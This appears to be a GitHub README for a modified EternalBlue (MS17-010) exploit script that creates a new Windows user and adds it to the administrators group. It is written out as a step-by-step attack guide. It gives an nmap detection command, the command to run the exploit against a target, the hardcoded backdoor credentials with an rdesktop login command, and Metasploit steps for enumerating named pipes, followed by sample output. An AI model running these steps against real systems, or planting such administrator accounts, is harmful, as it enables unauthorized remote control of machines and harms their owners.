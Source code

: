 # EternalBlue
I have done some changes to the https://github.com/worawit/MS17-010/blob/master/zzz_exploit.py developed by sleepya. This script create a new user and add the user to administrator group

Detect the vulnerability
nmap --script smb-vuln-ms17-010 -p445 <target_ip>

How to run the exploit
python exploit.py <target_ip> <pipe_name>
once the user is created you can logged in to the system using rdesktop

 user    : John,
 password: fadf24as

rdesktop -u John -p fadf24as <target_ip>

## How to find the pipe

msfconsole
#use auxiliary/scanner/smb/pipe_auditor
#set rhosts <target_ip>
#run

Result
Pipes: \netlogon, \lsarpc, \samr, \browser, \atsvc, \epmapper, \eventlog, \InitShutdown, \lsass, \ntsvcs, \router, \scerpc, \srvsvc, \tapsrv, \wkssvc
